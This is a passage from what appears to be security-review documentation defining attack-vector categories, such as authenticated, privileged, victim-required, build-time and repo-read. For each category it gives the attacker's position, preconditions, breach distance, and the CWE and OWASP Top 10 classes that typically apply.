
**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)